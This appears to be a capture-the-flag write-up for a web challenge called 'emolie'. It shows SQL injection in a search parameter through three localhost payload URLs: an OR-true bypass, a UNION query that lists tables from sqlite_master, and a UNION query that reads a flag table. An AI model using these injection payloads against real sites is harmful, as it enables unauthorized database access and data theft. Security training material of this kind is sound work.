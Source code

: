 # Writeup for emolie challenge

## Solve

the web application has `Sql Injection` vulnerability for `?q` query parameter in  `/search`


```
http://localhost:1337/search?q=CHERTPERT%22+OR+%221%22=%221%22+--
```

<div align="center">

![image](images/1.png)

</div>


The flag stored in another table, for list all tables
> NOTE: the dbms is sqlite3 (emolite -> emo lite)


```
http://localhost:1337/search?q=CHERTPERT%22+UNION+SELECT+sql,NULL+FROM+sqlite_master+--
```

<div align="center">

![image](images/2.png)

</div>


```
http://localhost:1337/search?q=CHERTPERT%22+UNION+SELECT+name,description+FROM+flag+--
```

<div align="center">

![image](images/3.png)

</div>
